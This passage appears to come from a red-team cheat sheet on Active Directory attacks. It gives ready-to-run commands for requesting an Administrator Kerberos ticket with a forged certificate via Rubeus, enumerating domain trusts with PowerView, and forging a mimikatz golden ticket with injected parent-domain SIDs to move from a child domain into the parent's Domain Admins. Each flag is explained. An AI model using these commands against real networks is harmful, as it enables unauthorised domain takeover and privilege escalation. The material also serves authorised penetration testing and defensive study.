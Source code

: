 Even though you can specify any SubjectAltName, the user does need to be present in AD

Then we can simply use Rubeus to request a legitimate TGT with this forged certificate and use it to access the domain controller.

```
execute-assembly C:\Tools\Rubeus\Rubeus.exe asktgt /user:Administrator /domain:test.domain /certificate:<pfx cert> /password:password /nowrap

make_token TEST\Administrator password

kerberos_ticket_use C:\Users\Administrator\Desktop\admin-tgt.kirbi
```

### Domain Trusts

Get Domain Trusts

```
powershell Get-DomainTrust

SourceName      : child.test.local
TargetName      : test.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : WITHIN_FOREST
TrustDirection  : Bidirectional
```

since there is a bidirectional trust in the child domain, we can forge a golden ticket for access into the parent domain

```
powershell Get-DomainGroup -Identity "Domain Admins" -Domain <PARENT DOMAIN> -Properties ObjectSid
```

Create ticket

```
mimikatz # kerberos::golden /user:Administrator /domain:child.test.local /sid:S-1-5-21-<Child domain SID> /sids:S-1-5-21-<Parent SID>-512 /aes256:<KRBTGT Hash> /startoffset:-10 /endin:600 /renewmax:10080 /ticket:golden.kirbi
```

Where:

* `/user` is the username to impersonate.
* `/domain` is the current domain.
* `/sid` is the current domain SID.
* `/sids` is the SID of the target group to add ourselves to.
* `/aes256` is the AES256 key of the current domain's krbtgt account.
* `/startoffset` sets the start time of the ticket to 10 mins before the current time.
* `/endin` sets the expiry date for the ticket to 60 mins.
* `/renewmax` sets how long the ticket can be valid for if renewed.

Use ticket

```
make_token TEST\Administrator password
 kerberos_ticket_use C:\Users\Administrator\Desktop\golden.kirbi
```

